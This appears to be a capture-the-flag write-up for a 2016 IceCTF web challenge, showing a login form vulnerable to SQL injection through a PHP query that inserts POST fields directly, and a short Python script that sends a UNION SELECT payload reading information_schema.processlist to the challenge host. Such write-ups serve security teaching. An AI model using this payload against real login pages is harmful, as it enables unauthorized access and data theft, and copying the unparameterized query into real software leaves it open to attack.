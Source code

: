 ============================================================================================================
[2016_icectf] [WEB] Solve
============================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5;
        }
        step0 -> step1[label="post_data: {username=' union select 1,2,info from information_schema.processlist-- -}",arrowhead="normal"];
        step3 -> step2[label="login success",arrowhead="normal"];
    }

|

server -> DB
================================================================================================================

- PHP 
- POST 파라미터: username, password

.. code-block:: sql

    SELECT * FROM users WHERE 
    username='$_POST["username"]' AND 
    password='$_POST["password"]'

|

union select 
================================================================================================================

- information_schema.processlist

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "http://miners.vuln.icec.tf/login.php"

    payload = {
        "username": "' union select 1,2,info from information_schema.processlist-- -",
        "password": "1",
    }

    r = requests.post(url, data=payload, verify=False)

    print r.content

|
